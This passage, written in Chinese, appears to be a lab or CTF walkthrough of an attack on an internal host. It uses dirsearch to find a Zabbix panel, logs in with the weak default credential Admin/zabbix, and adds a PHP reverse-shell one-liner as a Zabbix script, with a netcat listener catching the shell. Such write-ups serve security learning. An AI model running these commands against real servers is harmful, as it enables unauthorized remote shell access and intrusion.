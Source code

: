 应该没什么信息了，转向`192.168.12.50`

访问页面是一个Apache2 默认页面

![image-20231018100539764](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018100539764.png)

用dirsearch开扫

```bash
python .\dirsearch.py -u http://192.168.12.50/ -e "*"
```

扫出`/zabbix`

![image-20231018100627899](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018100627899.png)

需要登录

![image-20231018104204399](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018104204399.png)

弱口令一直没弱出来，翻了一下WP，发现是大写的Admin，绷不住了

`Admin/zabbix`弱口令登录

![image-20231018104546837](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018104546837.png)

之后参考这篇来打 https://cloud.tencent.com/developer/article/1586454

在 Administration -> Scripts处添加命令，反弹shell尝试了好几个，似乎只有`php`反弹shell成功

```bash
php -r '$sock=fsockopen("192.168.12.55",6666);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![image-20231018111625975](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018111625975.png)

将`nc64.exe`传入`192.168.12.55`

开启监听

```
nc64.exe -lvp 6666
```

![image-20231018111835401](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018111835401.png)

再在 Monitoring -> Latest data ![image-20231018111939298](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018111939298.png)

选择select加入所有

![image-20231018112045546](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018112045546.png)

点击`Zabbix server`相应的`Script`

![image-20231018112105641](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018112105641.png)

成功反弹shell
